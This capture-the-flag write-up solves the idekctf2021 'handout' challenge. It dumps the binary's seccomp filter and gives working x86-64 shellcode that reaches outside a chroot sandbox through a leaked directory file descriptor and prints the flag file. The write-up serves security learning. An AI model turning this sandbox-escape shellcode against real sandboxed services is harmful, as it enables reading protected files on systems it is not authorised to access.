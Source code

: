 # handout

A challenge from idekctf2021. This is a binary that uses `seccomp` to filter
allowed syscalls. This particular binary also `chroot`'s to a directory in tmp
(most likely to prevent writing to files that get executed). We will need to
analyze the sandbox environment to determine what is possible.

## Analysis

First we need to determine what protections we are dealing with.

## Solution

First we need to determine which syscalls we are allowed to execute. To do this
we can use [seccomp-tools](https://github.com/david942j/seccomp-tools). Run

    seccomp-tools dump ./rocket

Provide input so that the `seccomp` filters are submitted. The results look
like

    seccomp-tools dump ./rocket
    Creating a jail at `/tmp/ccRUAB`.
    Here is a gift for your journey:0x7ffcfdb72c00
    hello world
     line  CODE  JT   JF      K
    =================================
     0000: 0x20 0x00 0x00 0x00000004  A = arch
     0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
     0002: 0x06 0x00 0x00 0x00000000  return KILL
     0003: 0x20 0x00 0x00 0x00000000  A = sys_number
     0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
     0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
     0006: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0008
     0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
     0008: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0010
     0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
     0010: 0x15 0x00 0x01 0x00000028  if (A != sendfile) goto 0012
     0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
     0012: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0014
     0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
     0014: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0016
     0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
     0016: 0x15 0x00 0x01 0x00000048  if (A != fcntl) goto 0018
     0017: 0x06 0x00 0x00 0x7fff0000  return ALLOW
     0018: 0x06 0x00 0x00 0x00000000  return KILL

We can only use the following syscalls

    sigreturn
    openat
    write
    sendfile
    read
    exit
    fcntl

A look at the binary in `ghidra` shows that it opens the `/tmp` directory
before calling `chroot` and never closes the `fd`. We can use our shellcode to
call `openat` and open the flag file. Additonally the program opens several
random file descriptors. To overcome this we will have our shellcode loop over
every possible fd ad attempt to open the flag file. When the `openat` call
succeeds we break the loop. Here is our shellcode

        xor rdi, rdi     # get rdi to 3 initially
        inc rdi
        inc rdi
        inc rdi

    try_again:
        inc rdi               # increment test fd
        lea rsi, [rip + flag]
        mov rdx, O_RDONLY
        mov rax, SYS_openat
        syscall
        test rax, rax
        js try_again

    win:
        push rax            # read flag into memory
        pop rdi
        mov rsi, PTR_ADDR    # this will be the addr of our buffer - 30
        mov rdx, 0x30
        mov rax, SYS_read
        syscall

        xor rdi, rdi          # write flag to STDOUT
        inc rdi
        mov rax, SYS_write
        syscall

    flag:
        .ascii "../flag.txt"
